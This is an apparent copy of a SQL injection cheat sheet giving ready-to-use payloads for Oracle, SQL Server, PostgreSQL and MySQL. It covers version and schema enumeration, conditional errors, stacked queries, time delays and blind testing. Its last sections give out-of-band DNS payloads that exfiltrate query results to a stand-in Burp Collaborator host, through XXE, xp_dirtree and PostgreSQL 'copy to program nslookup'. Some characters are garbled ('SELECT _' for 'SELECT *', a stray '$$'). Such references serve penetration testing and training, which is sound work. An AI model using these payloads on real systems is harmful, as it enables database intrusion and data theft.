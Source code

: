 SQL injection cheat sheet
This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
You can concatenate together multiple strings to make a single string.

Oracle 'foo'||'bar'
Microsoft 'foo'+'bar'
PostgreSQL 'foo'||'bar'
MySQL 'foo' 'bar' [Note the space between the two strings]
CONCAT('foo','bar')
Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

Oracle SUBSTR('foobar', 4, 2)
Microsoft SUBSTRING('foobar', 4, 2)
PostgreSQL SUBSTRING('foobar', 4, 2)
MySQL SUBSTRING('foobar', 4, 2)
Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle --comment
Microsoft --comment
/_comment_/
PostgreSQL --comment
/_comment_/
MySQL #comment
-- comment [Note the space after the double dash]
/_comment_/
Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft SELECT @@version
PostgreSQL SELECT version()
MySQL SELECT @@version
Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

Oracle SELECT _ FROM all_tables
SELECT _ FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft SELECT _ FROM information_schema.tables
SELECT _ FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL SELECT _ FROM information_schema.tables
SELECT _ FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL SELECT _ FROM information_schema.tables
SELECT _ FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

Oracle SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
Microsoft SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
MySQL SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle Does not support batched queries.
Microsoft QUERY-1-HERE; QUERY-2-HERE
PostgreSQL QUERY-1-HERE; QUERY-2-HERE
MySQL QUERY-1-HERE; QUERY-2-HERE
Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle dbms_pipe.receive_message(('a'),10)
Microsoft WAITFOR DELAY '0:0:10'
PostgreSQL SELECT pg_sleep(10)
MySQL SELECT SLEEP(10)
Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

The following technique works on fully patched Oracle installations, but requires elevated privileges:
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
Microsoft exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
PostgreSQL copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
MySQL The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
DNS lookup with data exfiltration
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
Microsoft declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
PostgreSQL create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;

$$
language plpgsql security definer;
SELECT f();
MySQL	The following technique works on Windows only:
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
$$

